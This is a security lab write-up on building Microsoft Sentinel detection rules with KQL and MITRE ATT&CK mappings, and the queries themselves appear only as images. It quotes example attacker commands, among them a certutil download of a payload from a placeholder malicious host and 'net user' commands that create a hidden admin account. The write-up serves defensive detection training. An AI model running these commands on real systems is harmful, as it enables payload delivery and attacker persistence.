# Day 8 – Detection Engineering: Building Enterprise Security Analytics Rules

## Overview
This stage of the lab focuses on detection engineering within Microsoft Sentinel, where custom analytics rules are created to identify attacker behaviour in enterprise environments.

The objective is to demonstrate how SOC analysts translate attacker techniques into practical detections using KQL queries and Defender telemetry.

The rules developed in this lab detect the following behaviours:
- PowerShell abuse
- Malicious Office macro execution
- Living-Off-The-Land binary abuse
- Privilege escalation through account creation
- Suspicious outbound network activity

Each detection rule includes:
- Threat scenario
- MITRE ATT&CK mapping
- KQL detection logic
- Rule creation within Microsoft Sentinel
- Potential automation and response actions

---

## Detection Rule 1 – Suspicious PowerShell Execution Flags

### Rule Creation


### Threat Scenario
PowerShell is frequently abused by attackers to execute malicious scripts directly in memory, allowing them to bypass traditional security controls.

Common suspicious command-line flags include:

-EncodedCommand  
-ExecutionPolicy Bypass  
-NoProfile  
-WindowStyle Hidden  

These options allow scripts to run without standard restrictions and often hide payloads using Base64 encoding.

Example attacker command:

powershell.exe -EncodedCommand <Base64Payload>

### MITRE ATT&CK Mapping
T1059.001 – Command and Scripting Interpreter: PowerShell

### Detection Query


### Why the KQL Detection Works
This query searches endpoint telemetry from the DeviceProcessEvents table.

The rule identifies:
- execution of powershell.exe
- suspicious command line arguments
- contextual information including device name, user account and parent process

These indicators are commonly associated with malicious script execution used in phishing campaigns, malware loaders and ransomware activity.

### Automation Considerations


Automation was intentionally left unconfigured at this stage of the lab to focus on detection engineering and rule creation.

In a production SOC environment this rule could trigger automated responses such as:
- isolating the affected endpoint
- blocking malicious PowerShell activity
- triggering investigation playbooks
- alerting the security operations team

---

## Detection Rule 2 – Office Application Spawning PowerShell

### Rule Creation


### Threat Scenario
Attackers often deliver malicious Microsoft Office documents containing embedded macros. When opened, these macros may execute PowerShell commands to download and run malware.

A common malicious process chain looks like:

WINWORD.exe → powershell.exe  
EXCEL.exe → powershell.exe  
OUTLOOK.exe → powershell.exe  

Office applications rarely spawn PowerShell during normal activity, making this behaviour a strong indicator of macro-based malware execution.

### MITRE ATT&CK Mapping
T1204 – User Execution  
T1059.001 – PowerShell

### Detection Query


### Why the KQL Detection Works
This query identifies PowerShell processes where the parent process is a Microsoft Office application.

Using Defender telemetry from DeviceProcessEvents, the rule checks:
- whether the executed process is PowerShell
- whether the initiating process is Word, Excel or Outlook

Because Office programs rarely launch PowerShell legitimately, this behaviour may indicate malicious macro activity.

### Rule Visible in Microsoft Defender / Sentinel


### Potential Automation Options
Possible automated responses could include:
- isolating the endpoint that opened the malicious document
- blocking the associated file hash
- triggering email threat investigation workflows
- alerting SOC analysts for investigation

---

## Detection Rule 3 – Living-Off-The-Land Binary (LOLBIN) Abuse

### Rule Creation


### Threat Scenario
Attackers frequently abuse legitimate Windows binaries to execute malicious activity without deploying custom malware. These tools are known as Living-Off-The-Land Binaries (LOLBins).

Common examples include:

mshta.exe  
rundll32.exe  
certutil.exe  

Example malicious usage:

certutil -urlcache -split -f http://malicious-site payload.exe

Because these binaries are trusted system tools, they can bypass many traditional security controls.

### MITRE ATT&CK Mapping
T1218 – Signed Binary Proxy Execution

### Detection Query


### Why the KQL Detection Works
This query monitors execution of commonly abused Windows binaries using the DeviceProcessEvents table.

The rule searches for processes where the executed binary matches known LOLBINs such as mshta.exe, rundll32.exe and certutil.exe.

These binaries are frequently used in post-exploitation frameworks and malware delivery chains.

### Rule Visible in Microsoft Defender / Sentinel


### Potential Automation Options
Automation could include:
- blocking execution of suspicious binaries
- isolating affected hosts
- triggering host investigation playbooks
- alerting the SOC team

---

## Detection Rule 4 – New Local Account Creation

### Rule Creation


### Threat Scenario
After compromising a system, attackers often create new user accounts to maintain persistence or escalate privileges.

Example attacker commands:

net user attacker Password123 /add  
net localgroup administrators attacker /add  

### MITRE ATT&CK Mapping
T1136 – Create Account

### Detection Query


### Why the KQL Detection Works
This detection monitors account creation activity using the DeviceEvents table.

The query filters events where the ActionType indicates that a new account has been created.

Returned fields include the device name, newly created account, user responsible for creating the account and timestamp of the event.

Unexpected account creation activity may indicate attacker persistence or privilege escalation.

### Rule Visible in Microsoft Defender / Sentinel


### Potential Automation Options
Possible automated responses include:
- disabling the suspicious account
- forcing password resets
- initiating host investigation workflows
- notifying security analysts

---

## Detection Rule 5 – Suspicious External Network Connections

### Rule Creation


### Threat Scenario
Malware frequently communicates with external command-and-control (C2) servers after initial compromise.

Indicators of suspicious behaviour include:
- repeated outbound connections
- connections to unfamiliar external IP addresses
- unusually high connection volumes

### MITRE ATT&CK Mapping
T1071 – Application Layer Protocol

### Detection Query


### Why the KQL Detection Works
This query analyses network telemetry from the DeviceNetworkEvents table.

The detection identifies endpoints generating a large number of connections to external public IP addresses.

By summarizing connection counts per device and remote IP, the rule highlights systems communicating excessively with external hosts which may indicate command-and-control traffic.

### Rule Visible in Microsoft Defender / Sentinel


### Potential Automation Options
Automated response actions may include:
- blocking outbound connections to suspicious IP addresses
- isolating the affected endpoint
- initiating network investigation playbooks
- alerting SOC analysts

---

## Key Takeaways
This detection engineering exercise demonstrates how SOC analysts design practical security monitoring rules based on attacker techniques and available telemetry.

Skills demonstrated in this lab include:
- writing KQL detection queries
- mapping detections to MITRE ATT&CK techniques
- implementing custom Microsoft Sentinel analytics rules
- designing detection logic for real-world attacker behaviours
- understanding how automation can enhance incident response workflows
